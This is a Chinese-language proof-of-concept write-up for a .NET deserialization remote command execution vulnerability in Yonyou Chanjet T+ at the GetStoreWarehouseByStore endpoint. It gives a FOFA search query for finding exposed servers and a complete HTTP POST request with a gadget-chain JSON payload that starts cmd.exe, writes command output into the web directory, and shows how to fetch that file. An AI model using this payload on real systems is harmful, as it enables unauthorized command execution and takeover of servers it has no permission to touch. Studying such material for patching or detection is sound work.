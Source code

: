 # 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞

## 漏洞描述

用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器

## 漏洞影响

用友 畅捷通T+

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20230704111641427](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704111641427.png)

验证POC

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

![image-20230704111653392](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704111653392.png)

```
/tplus/xxx.txt
```

![image-20230704111706616](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704111706616.png)